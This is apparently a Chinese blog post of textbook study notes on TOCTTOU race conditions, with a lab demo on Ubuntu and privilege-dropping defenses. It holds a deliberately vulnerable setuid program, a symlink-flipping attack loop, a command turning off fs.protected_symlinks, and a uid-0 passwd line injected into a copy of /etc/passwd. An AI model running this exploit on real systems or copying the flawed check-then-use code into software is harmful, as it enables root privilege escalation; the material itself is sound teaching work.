






[toc]

## 前言

来源：[《Computer Security》A Hands-on Approach](https://www.handsonsecurity.net/)   — Wenliang Du

我简单做个笔记，详细内容见书上。

所有的代码/文档见github：https://github.com/da1234cao/computer_security

<br>

## 摘要

理解竞争条件+演示竞争条件+对于竞争条件的防御措施；

<br>

<br>

## 理解竞争条件

[竞争条件](https://zh.wikipedia.org/wiki/%E7%AB%B6%E7%88%AD%E5%8D%B1%E5%AE%B3) 

>  竞争条件,它旨在描述一个系统或者进程的输出依赖于不受控制的事件出现顺序或者出现时机。
>
> 举例来说，如果计算机中的两个[进程](https://zh.wikipedia.org/wiki/进程)同时试图修改一个共享内存的内容，在没有[并发控制](https://zh.wikipedia.org/wiki/并发控制)的情况下，最后的结果依赖于两个进程的执行顺序与时机。而且如果发生了并发访问冲突，则最后的结果是不正确的。

### 举例

操作系统的相关书籍，可能都有竞争条件的的例子。我这里简单赘述下。

* 小A和小B，住在一起，他们有个柜子，柜子里有10 RMB;
* 小A，在睡前，看一眼柜子。他决定明天早上拿7(7<10)块钱，去吃早饭。
* 小B，在睡前，看一眼柜子。他也决定明天早上拿7(7<10)块钱，去吃早饭。
* 小A，早睡早起，拿着7块钱，去开心的吃早饭。
* 小B，晚睡晚起，正当他要去那7块钱的时候，发现不够(7>10-7)。
* 小B是个伪装成人类的机器人，他的程序不对，卡在这里，俗称卡机。。

<br>

### 抽象

将上面取钱部分抽取出来，如下所示：

```c
function withdraw(amount)
{
    balance = getBalance()
    if(amount <= balance){                       --------》A1,B1
        balance = balance - amount &&
        saveBalance(balance);                    --------》A2,B2
        //echo "You have withdrawn: amount RMB";   
    }else{
        echo " Insufficient funds ."             --------》A3，B3
    }
}
```

当两个进程，运行这个程序的时候，**由于执行的时间和顺序不同，会有不同的结果。**

简化起见：

（1） A程序中的三个可能步骤是A1, A2, A3; B程序中的三个可能步骤是B1, B2, B3; (对应步骤均表已执行)

（2）银行的钱，仅仅够其中的某一个程序取出一次。

| 交叉执行顺序 | 结果 |
| :----------: | :--: |
| A1 A2  B1 B3 | 正确 |
| B1 B2 A1 A3  | 正确 |
| A1 B1 A2 B2  | 错误 |
|     ....     |  ..  |

当交叉执行顺序为A1 B1 A2 B2，程序的执行出现问题。

<br>

### 提炼

<font color=red>Time-of-check Time-of-use</font>  这是一种软件中的竞争条件；它发生在先检查条件，再使用资源。有时候，条件改变，发生在检查和使用之间。由这种问题导致的安全漏洞被称为 Time-of-check to Time-of-use(TOCTTOU) race condition vulnerability(竞争条件漏洞)。

<br>

<br>

## 演示竞争条件漏洞

概念就那回事，我们来看看如何操作。

### 背景

实验环境：ubuntu18.04，gcc version 7.5.0， 关闭保护措施`fs.protected_symlinks`  。

**目的：普通的用户，使用已有的特权程序，利用竞争条件漏洞，在`/etc/passwd.bak` 中写入一行内容。**

注：

* 不关闭保护措施`fs.protected_symlinks`  ，搞不定。关于`fs.protected_symlinks`  介绍见后文“关闭防护”。
* /etc/passwd.bak的文件权限为 [-rw-r--r--  root root]
* 背景知识要求：[进一步理解特权程序](https://blog.csdn.net/sinat_38816924/article/details/105324276)

<br>

### 设计与实现

（1）**特权程序**将在全局可写的/tmp目录中，对文件/tmp/XYZ进行写入操作。

（2）由/tmp粘滞位的要求，XYZ文件和执行特权程序为同一个普通用户。

（3）**XYZ文件作为普通程序被检查后，在对其写入之前，将其转变成软连接文件，指向/etc/passwd.bak。**

（4）为了不破坏passwd文件，我们对其进行复制，两者文件权限相同。



描述的有点:poop: ,不明白的，可以读下面的程序。(图片网上找的，有点糊)

<br>

#### 特权程序

特权程序：需要打开/tmp目录中的文件，并写入内容。

参考文章：[fopen与open的区别](https://www.cnblogs.com/joeblackzqq/archive/2011/04/11/2013010.html) 、[C语言access()函数](http://c.biancheng.net/cpp/html/303.html)

```c
/**
 * 具有竞争条件问题的程序,vulp.c
 * cd /tmp; touch XYZ
 * gcc -o vulp vulp.c
 * sudo chown root vulp
 * sudo chown 4755 vulp
*/

#include <stdio.h>
#include <unistd.h>

int main(void){
    FILE *tmp = NULL;
    char *fn = "/tmp/XYZ";
    char buffer[60]={0};

    scanf("%50s",buffer);

    if(!access(fn,W_OK)){ /*根据ruid，判断是否有写入权限*/
        tmp = fopen(fn,"r+"); /*根据euid，打开文件,不要用a+*/
        fwrite("\n",sizeof(char),1,tmp);
        fwrite(buffer,sizeof(char),sizeof(buffer),tmp);
        fclose(tmp);
        printf("...............insert data..........");
        // getchar();
    }
    else{
        printf("no permission\n");
    }
    
    return 0;
}
```

小白兔已就绪。

<br>

#### 攻击程序

攻击程序：改变XYZ文件，使其成为软连接文件，指向/etc/passwd.bak

```c
/**
 * 不断删除和创建指向passwd文件的软连接文件,attack.c
 * cd /tmp; touch tmp.txt
 * cd /etc; cp -a passwwd passwd.bak
 * gcc -o attack attack.c
*/

#include <stdio.h>
#include <unistd.h>

int main(void){
    int sleep_time = 1000;

    while (1){
        unlink("/tmp/XYZ");
        symlink("/tmp/tmp.txt","/tmp/XYZ");/*指向一个“普通”文件，跳过access*/
        usleep(sleep_time); 

        unlink("/tmp/XYZ");
        symlink("/etc/passwd.bak","/tmp/XYZ");/*指向passwd*/
        usleep(sleep_time); 
    }
    
    return 0;
}
```

大灰狼已就绪。

<br>

#### 关闭防护

```shell
# fs.protected_symlinks介绍见附录
sudo sysctl -w fs.protected_symlinks=0
```

参考文章：[sysctl命令](https://man.linuxde.net/sysctl)  + [protected_symlinks参数](https://www.kernel.org/doc/html/latest/admin-guide/sysctl/fs.html?highlight=protected_symlinks) + [内核参数说明](https://www.cnblogs.com/tolimit/p/5065761.html)

> 原文：
>
> ### protected_symlinks
>
> A long-standing class of security issues is the symlink-based time-of-check-time-of-use race, most commonly seen in world-writable directories like /tmp. The common method of exploitation of this flaw is to cross privilege boundaries when following a given symlink (i.e. a root process follows a symlink belonging to another user). For a likely incomplete list of hundreds of examples across the years, please see: http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=/tmp
>
> When set to “0”, symlink following behavior is unrestricted.
>
> When set to “1” symlinks are permitted to be followed only when outside a sticky world-writable directory, or when the uid of the symlink and follower match, or when the directory owner matches the symlink’s owner.
>
> This protection is based on the restrictions in Openwall and grsecurity.

> 译文：
>
> 一类长期存在的安全性问题是基于符号链接的Time-of-check to Time-of-use race，最常见于/ tmp这样的全局可写目录。 利用此漏洞的常用方法是，使用特权程序跟随符号链接（即，root process 跟随属于另一个用户的符号链接）。 有关多年来可能不完整的数百个示例列表，请参阅：http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=/tmp
>
> 当被设置成0的时候，符号链接的跟随行为不被限制。
>
> 当被设置成1的时候，符号链接被允许更随的条件：**仅当符号链接在全局可写的具有滞位的目录之外，或者符号链接的uid与追随者匹配，或者目录所有者与符号链接的所有者匹配时，**

明白否？我当时看了好几眼都没明白。我解释下。

（1）符号链接的跟随行为？

符号链接文件，指向另一个文件。当我们cat XYZ的时候，查看的是被执行的文件。



（2）当参数被设置成1的时候？

简单举个栗子：

* 符号链接在全局可写的具有滞位的目录之内。
* 符号链接的uid为普通用户(dacao)；追随者的uid，即使用这个链接的程序的uid为root；不匹配。
* 目录为/tmp，其所有者是root；符号链接的所有者为普通用户(dacao)；不匹配；
* 所以，即使是root，这里也没法通过跟随软连接查看/etc/passwd文件。



（3）关于fs.protected_symlinks比较详细实践

我没有尝试。书上实践了部分，我截个图过来，偷偷懒。





拆掉小白兔的防护堡垒。

<br>

#### 不断进行攻击

不断尝试攻击，直到成功。

```shell
echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" >> passwd_input.txt
```

```bash
#!/bin/bash

CHECK_FILE="ls -alh /etc/passwd.bak"

old=`$CHECK_FILE`
new=`$CHECK_FILE`

# echo $CHECK_FILE
# echo $old
# echo $new

while [ "$old" == "$new" ]; do
    ./vulp < passwd_input.txt
    new=`$CHECK_FILE`
done

echo "passwd.bak has changed. stop..."
```

大灰狼不断尝试吃掉小白兔。

<br>

<br>

### 结果

实验结果很好。

**普通用户，使用特权程序，利用竞争条件漏洞，在/etc/passwd.bak中，写入一行信息。**



<br>

<br>

## 防护措施

### 一个角度

首先，我们从竞争漏洞的角度来思考该如何避免这样的漏洞。

这个竞争漏洞出现的原因是，**检查和使用相互分离。**

* 避免出现漏洞：锁，原子操作，在这里来一下？ 不太好处理。除非有个函数，可以将access和fopen的功能合并。
* fs.protected_symlinks;这个在上面介绍过了，不再叙述。

### 另一个角度

首先，我们从权限的角度来思考该如何避免这样的漏洞。

这个漏洞出现的原因是，给特权程序的权限过大。

在特权程序的执行过程中，相当于euid为root来对普通文件进行写操作，权限给多了。

所以，我们在执行特权程序的过程中，仅仅给需要特区程序的部分以特权。

```c
/**
 * 具有竞争条件问题的程序,not_vulp.c
 * cd /tmp; touch XYZ
 * gcc -o not_vulp not_vulp.c
 * sudo chown root not_vulp
 * sudo chown 4755 not_vulp
*/

#include <stdio.h>
#include <unistd.h>

int main(void){
    FILE *tmp = NULL;
    char *fn = "/tmp/XYZ";
    char buffer[60]={0};

    printf("printf priviliged euid %u\n",geteuid());

    scanf("%50s",buffer);

    seteuid(getuid()); //关闭特权
    printf("printf priviliged euid %u\n",geteuid());

    tmp = fopen(fn,"r+"); /*根据euid，打开文件,不要用a+*/
    fwrite("\n",sizeof(char),1,tmp);
    fwrite(buffer,sizeof(char),sizeof(buffer),tmp);
    fclose(tmp);
    printf("...............insert data..........\n");
    // getchar();
    
    seteuid(0);  //恢复特权

    printf("printf priviliged euid %u\n",geteuid());
    
    return 0;
}
```

<br>

<br>

## 附录

### 一个参数选项曾导致的实验演示失败

书上的程序是这么写的，我们看看它有什么潜在的问题。

参考文章：[文件（目录）rwx权限的意义](https://blog.51cto.com/zhangqingli/1333503) + [SBIT](http://www.fatesky.com/%e9%98%85%e8%af%bb/%e5%88%86%e4%ba%ab%ef%bc%9a%e3%80%8alinux%e5%b0%b1%e8%af%a5%e8%bf%99%e4%b9%88%e5%ad%a6-%e3%80%8b%e7%ac%ac5%e7%ab%a0-%e7%94%a8%e6%88%b7%e8%ba%ab%e4%bb%bd%e4%b8%8e%e6%96%87%e4%bb%b6%e6%9d%83%e9%99%90/) 

```c
/**
 * 具有竞争条件问题的程序,vulp.c
 * cd /tmp; touch XYZ
 * gcc -o vulp vulp.c
 * sudo chown root vulp
 * sudo chown 4755 vulp
*/

#include <stdio.h>
#include <unistd.h>

int main(void){
    FILE *tmp = NULL;
    char *fn = "/tmp/XYZ";
    char buffer[60]={0};

    scanf("%50s",buffer);

    if(!access(fn,W_OK)){ /*根据ruid，判断是否有写入权限*/
        tmp = fopen(fn,"a+"); /*根据euid，打开文件,不要用a+*/    <-----这里不同------>
        fwrite("\n",sizeof(char),1,tmp);
        fwrite(buffer,sizeof(char),sizeof(buffer),tmp);
        fclose(tmp);
        printf("...............insert data..........");
        // getchar();
    }
    else{
        printf("no permission\n");
    }
    
    return 0;
}
```

下面分析，用这个程序执行，可能会失败的原因。

* attack.c程序执行的过程中，/tmp/XYZ文件，有不存在的片刻。
* 上面特权程序vulp.c程序执行access函数时候，XYZ文件存在；执行fopen函数XYZ不存在的时候，会自行创建XYZ文件。fopen**创建出来XYZ文件权限为[（root,dacao,other）-rw-rw-r--]** 。见下方。
* XYZ文件的所有着为root用户。
* 由于XYZ文件在/tmp目录。要删除和重命名这个文件，受粘滞位的影响，无法删除。
* 所以使用fopen(fn,"r+"),就解决这个问题了。当没有这个文件的时候，不进行创建。

```c
/**
 * 程序名：tmp.c
 * 目的：尝试，使用fopen创建的文件默认权限;仅尝试，不追究；
 * 
 * dacao# gcc -g -o tmp tmp.c
 * 普通用户创建：(dacao,dacao,other)rw-rw-r
 * 
 * root# gcc -g -o tmp tmp.c
 * 和root用户创建：(root,root,other)rw-r--r--
 * 
 * dacao# gcc -g -o tmp tmp.c
 * dacao# sudo chown root tmp
 * dacao# sudo chmod 4755 tmp
 * 普通用户运行特权程序创建：（root,dacao,other）-rw-rw-r--
*/

#include <stdio.h>
#include <unistd.h>

int main(void){
    /*如果没有该文件，则创建*/
    FILE *tmp = fopen("tmp.txt","w");
    fclose(tmp);
    return 0;
}
```

<br>

### 奇怪的想法

我没有去解决求证。

```shell
➜  ~ ls -ald /tmp           
drwxrwxrwt 29 root root 20480 6月  23 18:25 /tmp
```

* /tmp目录下的文件，由于粘滞位，使得只有root和文件对应的用户，才能删除，重命名该文件
* 从文件的角度来看，目录也是文件。
* 所有的用户对/tmp目录文件，都有写操作权限；所以都可以在tmp中创建/删除文件。
* 所以粘滞位，这样`rwxrwxrtx `，是不是才合理？:dog:

<br>

<br>

## 参考文章汇总

[竞争条件](https://zh.wikipedia.org/wiki/%E7%AB%B6%E7%88%AD%E5%8D%B1%E5%AE%B3)

[进一步理解特权程序](https://blog.csdn.net/sinat_38816924/article/details/105324276)

[fopen与open的区别](https://www.cnblogs.com/joeblackzqq/archive/2011/04/11/2013010.html) + [C语言access()函数](http://c.biancheng.net/cpp/html/303.html)

[sysctl命令](https://man.linuxde.net/sysctl)  + [protected_symlinks参数](https://www.kernel.org/doc/html/latest/admin-guide/sysctl/fs.html?highlight=protected_symlinks) + [内核参数说明](https://www.cnblogs.com/tolimit/p/5065761.html)

[文件（目录）rwx权限的意义](https://blog.51cto.com/zhangqingli/1333503) + [SBIT](http://www.fatesky.com/%e9%98%85%e8%af%bb/%e5%88%86%e4%ba%ab%ef%bc%9a%e3%80%8alinux%e5%b0%b1%e8%af%a5%e8%bf%99%e4%b9%88%e5%ad%a6-%e3%80%8b%e7%ac%ac5%e7%ab%a0-%e7%94%a8%e6%88%b7%e8%ba%ab%e4%bb%bd%e4%b8%8e%e6%96%87%e4%bb%b6%e6%9d%83%e9%99%90/)